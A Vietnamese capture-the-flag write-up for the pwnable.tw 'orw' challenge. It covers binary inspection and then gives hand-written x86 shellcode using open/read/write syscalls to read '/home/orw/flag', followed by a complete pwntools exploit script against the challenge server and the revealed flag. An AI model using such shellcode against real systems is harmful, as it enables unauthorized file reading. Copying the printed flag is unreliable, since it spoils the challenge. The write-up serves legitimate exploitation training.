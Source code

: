 **1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra ta có:

```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

Là file ELF 32bit -> Mở bằng IDA ta có source như sau:

![leak.png](photo/leak.png)

Chương trình cho phép mình nhập vào 1 chuỗi và thực thi chuỗi mình nhập vào.

![bof.png](photo/bof.png)

Quan sát ta thấy chương trình cho phép nhập vào 0xc8 và sau đó cộng esp với 0x10 -> Có lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta có:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Ở đây thì stack đã Canary found và NX disabled nên có thể thực thi shellcode

**2. Ý tưởng**

Như đề bài đã gợi ý thì sẽ sử dụng hàm 'open' để mở '/home/orw/flag'. Dùng hàm 'read' để đọc nội dung file và dùng hàm 'write' để ghi file

**3. Khai thác**

Đầu tiên chúng ta cần 1 con trỏ để trỏ tới chuỗi '/home/orw/flag' để thực thi các hàm

Đổi từng ký tự trong chuỗi về mã ascii và biểu diễn dưới dạng số hexa

![chuoi.png](photo/chuoi.png)

Tiếp theo sẽ viết mã asm để mở tệp trên

```
mov ecx, 0
mov edx, 0
mov ebx, esp
mov eax, 5
int 0x80
```

Tiếp theo là mã asm để đọc nội dung tệp

```
mov ecx, esp
mov edx, 0x100
mov ebx, eax
mov eax, 3
int 0x80
```

Tiếp theo là ghi nội dung của tệp vừa đọc được

```
mov eax, 4
mov ebx, 1
int 0x80
```

Sau khi tạo xong thì thử check xem lúc call thì có call shellcode mình đã viết chưa

![shell.png](photo/shell.png)

Như vậy chương trình đã chạy đúng shell mình viết

Ta có script như sau:

```
from pwn import *

#r = process('./orw')
r = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov ecx, 0
    mov edx, 0
    mov ebx, esp
    mov eax, 5
    int 0x80

    mov ecx, esp
    mov edx, 0x100
    mov ebx, eax
    mov eax, 3
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
)

#input()
r.sendafter(b'shellcode:', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`